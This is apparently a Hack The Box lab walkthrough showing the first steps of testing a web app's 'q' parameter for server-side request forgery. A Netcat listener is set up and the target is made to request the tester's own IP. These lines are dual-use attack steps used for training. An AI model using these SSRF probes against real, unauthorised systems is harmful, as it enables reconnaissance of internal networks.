 ```shell
p3ta@htb[/htb]
$ curl -i -s -L http://<TARGET IP>

HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```

The spawned target is `ubuntu-web.lalaguna.local`, and `internal.app.local` is an application on the internal network (inaccessible from our current position).

The next step is to confirm if the `q` parameter is vulnerable to SSRF. If it is, we may be able to reach the internal.app.local web application by leveraging the SSRF vulnerability. We say "may" because a trust relationship likely exists for `ubuntu-web` to be able to reach and interact with `internal.app.local`. This type of relationship can be something as simple as a firewall rule (or even a lack of any firewall rule).

In one terminal, let's use Netcat to listen on port 8080, as follows.

#### Netcat Listener

```shell
p3ta@htb[/htb]$ nc -nvlp 8080

listening on [any] 8080 ...
```

Now, let us issue a request to the target web application with `http://<VPN/TUN Adapter IP>` instead of `index.html` in another terminal, as follows. `<VPN/TUN Adapter IP>` will either be the TUN adapter IP of Pwnbox or the TUN adapter IP of the local VM you may be using (after connecting with the supplied VPN key).

#### Curl - Testing for SSRF

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 0
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 12:07:10 GMT
```

